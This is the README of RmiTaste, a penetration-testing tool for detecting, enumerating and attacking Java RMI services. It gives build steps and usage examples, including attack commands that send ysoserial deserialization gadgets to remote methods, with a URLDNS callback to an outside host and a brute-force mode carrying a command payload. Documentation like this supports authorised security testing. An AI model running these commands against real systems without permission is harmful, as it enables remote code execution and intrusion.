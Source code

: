 <p align="center">
  <img src="assets/rmitastepsd_white.png" width=600>
</p>

#
![License](https://img.shields.io/badge/license-MIT-lightgrey.svg)
# RmiTaste
 RmiTaste allows security professionals to detect, enumerate, interact and attack RMI services by calling remote methods with gadgets from ysoserial. It also allows to call remote method with specific parameters.
 
### Disclaimer
 RmiTaste was written to aid security professionals in identifying insecure RMI services on systems which the user has prior permission to attack. Unauthorised access to computer systems is illegal and RmiTaste must be used in accordance with all relevant laws. Failure to do so could lead to you being prosecuted. The developers of RmiTaste assume no liability and are not responsible for any misuse or damage caused by this program.

## Building and Running
 1. Download ysoserial-master-SNAPSHOT.jar and save it in libs_attack directory (https://github.com/frohoff/ysoserial).
 2. Build project using maven:
    ```bash
    mvn package
    ```
 3. Run command:
    ```bash
    java -cp ".:libs_attack/*:target/rmitaste-1.0-SNAPSHOT-all.jar" m0.rmitaste.RmiTaste -h
    
    
     __________        ._____________                __
     \______   \ _____ |__\__    ___/____    _______/  |_  ____
     |       _//     \|  | |    |  \__  \  /  ___/\   __\/ __ \
     |    |   \  Y Y  \  | |    |   / __ \_\___ \  |  | \  ___/
     |____|_  /__|_|  /__| |____|  (____  /____  > |__|  \___  >
           \/      \/                  \/     \/            \/
     @author Marcin Ogorzelski (mzero - @_mzer0) STM Solutions
    
    Warning: RmiTaste was written to aid security professionals in identifying the
             insecure use of RMI services on systems which the user has prior
             permission to attack. RmiTaste must be used in accordance with all
             relevant laws. Failure to do so could lead to your prosecution.
             The developers assume no liability and are not responsible for any
             misuse or damage caused by this program.
    
    ```
  
## Usage

RmiTaste has 4 modes: conn, enum, attack and call. Each mode has a separate help.
```bash
java -cp ".:libs_attack/*:target/rmitaste-1.0-SNAPSHOT-all.jar" m0.rmitaste.RmiTaste -h
(...)
Usage: <main class> [-h] [COMMAND]
  -h, --help   display this help message
Commands:
  conn    check connection to host
  enum    enumerate RMI service
  attack  attack RMI registry methods
  call    call specific method on RMI remote object
```
### conn mode
Conn mode allows to check if port is RMI service port.
```bash
# Check if 127.0.0.1:1099 is RMI Service
java -cp ".:libs_attack/*:target/rmitaste-1.0-SNAPSHOT-all.jar" m0.rmitaste.RmiTaste conn -t 127.0.0.1 -p 1099
```
### enum mode
Enum mode allows to fetch information about RMI service such as: remote objects names and classes names that remote object implements or extends. If interface implemented by remote object is available in RmiTaste classpath then RmiTaste will print all remote methods that you can call on this remote object.
```bash
# RMI service enumeration
java -cp ".:libs_attack/*:target/rmitaste-1.0-SNAPSHOT-all.jar" m0.rmitaste.RmiTaste enum -t 127.0.0.1 -p 1099
```
### attack mode
Attack mode allows to call remote method with specific gadget chain from ysoserial. Assume that remote object has following methods:
```bash
acc1 [object] [127.0.1.1:38293] 
         implements java.rmi.Remote [interface]
         extends java.lang.reflect.Proxy [class]
         implements m0.rmitaste.example.server.ClientAccount [interface]
                setPin(java.lang.String param0); [method]
                        Parameters: param0;  may be vulnerable to Java Deserialization! [info]
                getBalance(); [method]
                deposit(java.lang.Object param0); [method]
                        Parameters: param0;  may be vulnerable to Java Deserialization! [info]
                withdraw(float param0); [method]
```

```bash
# Call all remote methods with URLDNS gadget as parameter
java -cp ".:libs_attack/*:target/rmitaste-1.0-SNAPSHOT-all.jar" m0.rmitaste.RmiTaste attack -t 127.0.0.1 -p 1099 -g "URLDNS" -c "http://rce.mzero.pl"
```

```bash
# Call acc1:m0.rmitaste.example.server.ClientAccount:deposit method with URLDNS gadget as parameter
java -cp ".:libs_attack/*:target/rmitaste-1.0-SNAPSHOT-all.jar" m0.rmitaste.RmiTaste attack -t 127.0.0.1 -p 1099 -m "acc1:m0.rmitaste.example.server.ClientAccount:deposit" -g "URLDNS" -c "http://rce.mzero.pl"
```


Option "-gen bruteforce" allows to brute force remote method with gadgets from ysoserial. In this example deposit method will be called multiple times with gadgets from ysoserial.
```bash
# Call acc1:m0.rmitaste.example.server.ClientAccount:deposit method with gadgets from ysoserial and command ping 127.0.0.1
java -cp ".:libs_attack/*:target/rmitaste-1.0-SNAPSHOT-all.jar" m0.rmitaste.RmiTaste attack -t 127.0.0.1 -p 1099 -m "acc1:m0.rmitaste.example.server.ClientAccount:deposit" -gen bruteforce -c "ping 127.0.0.1"
```
### call mode
Call mode allows to call specific method on RMI remote object. Assume that remote object has following methods:
```bash
acc1 [object] [127.0.1.1:38293] 
         implements java.rmi.Remote [interface]
         extends java.lang.reflect.Proxy [class]
         implements m0.rmitaste.example.server.ClientAccount [interface]
                setPin(java.lang.String param0); [method]
                        Parameters: param0;  may be vulnerable to Java Deserialization! [info]
                getBalance(); [method]
                deposit(java.lang.Object param0); [method]
                        Parameters: param0;  may be vulnerable to Java Deserialization! [info]
                withdraw(float param0); [method]
```

```bash
# Call m0.rmitaste.example.server.ClientAccount.getBalance method on acc1 remote object
java -cp ".:libs_attack/*:target/rmitaste-1.0-SNAPSHOT-all.jar" m0.rmitaste.RmiTaste call -t 127.0.0.1 -p 1099 -m "acc1:m0.rmitaste.example.server.ClientAccount:getBalance"
```

```bash
# Call m0.rmitaste.example.server.ClientAccount.setPin("1234") method on acc1 remote object
java -cp ".:libs_attack/*:target/rmitaste-1.0-SNAPSHOT-all.jar" m0.rmitaste.RmiTaste call -t 127.0.0.1 -p 1099 -m "acc1:m0.rmitaste.example.server.ClientAccount:setPin" -mp "string=1234"
```

### Examples
Demo server is available <a href="https://github.com/STMSolutions/RmiServerExample">here</a>.

 1. Run demo server.
  
 2. Enumerate target.
  
  ```bash
  root@keyisinyourmind:/media/sf_pentest2/Tools/python/Toolset/Others/RmiTasteTool# java -cp ".:libs_attack/*:target/rmitaste-1.0-SNAPSHOT-all.jar" m0.rmitaste.RmiTaste enum -t 127.0.0.1 -p 1099
 acc1 [object] [127.0.1.1:42881] 
	 extends java.rmi.server.RemoteObjectInvocationHandler [class]
	 implements java.rmi.Remote [interface]
	 extends java.lang.reflect.Proxy [class]
	 extends java.rmi.server.RemoteObject [class]
	 implements m0.rmitaste.example.server.ClientAccount [interface]
		No methods found. I don't have remote object interface. Give it to me!

 acc2 [object] [127.0.1.1:42881] 
	 extends java.rmi.server.RemoteObjectInvocationHandler [class]
	 implements java.rmi.Remote [interface]
	 extends java.lang.reflect.Proxy [class]
	 extends java.rmi.server.RemoteObject [class]
	 implements m0.rmitaste.example.server.ClientAccount [interface]
		No methods found. I don't have remote object interface. Give it to me!
  ```
 As you can see, RmiTaste needs interface of remote object. During pentests you will have to find this interface. In this example, just copy rmitaste.examples-1.0-SNAPSHOT-all.jar to libs_attack directory.
 Enumerate target again:
  ```bash
 acc1 [object] [127.0.1.1:42881] 
	 extends java.rmi.server.RemoteObjectInvocationHandler [class]
	 implements java.rmi.Remote [interface]
	 extends java.lang.reflect.Proxy [class]
	 extends java.rmi.server.RemoteObject [class]
	 implements m0.rmitaste.example.server.ClientAccount [interface]
		setPin(java.lang.String param0); [method]
			Parameters: param0;  may be vulnerable to Java Deserialization! [info]
		getBalance(); [method]
		deposit(java.lang.Object param0); [method]
			Parameters: param0;  may be vulnerable to Java Deserialization! [info]
		withdraw(float param0); [method]

 acc2 [object] [127.0.1.1:42881] 
	 extends java.rmi.server.RemoteObjectInvocationHandler [class]
	 implements java.rmi.Remote [interface]
	 extends java.lang.reflect.Proxy [class]
	 extends java.rmi.server.RemoteObject [class]
	 implements m0.rmitaste.example.server.ClientAccount [interface]
		setPin(java.lang.String param0); [method]
			Parameters: param0;  may be vulnerable to Java Deserialization! [info]
		getBalance(); [method]
		deposit(java.lang.Object param0); [method]
			Parameters: param0;  may be vulnerable to Java Deserialization! [info]
		withdraw(float param0); [method]

  ```

## Author
Twitter: <a href="https://twitter.com/_mzer0">@_mzer0</a>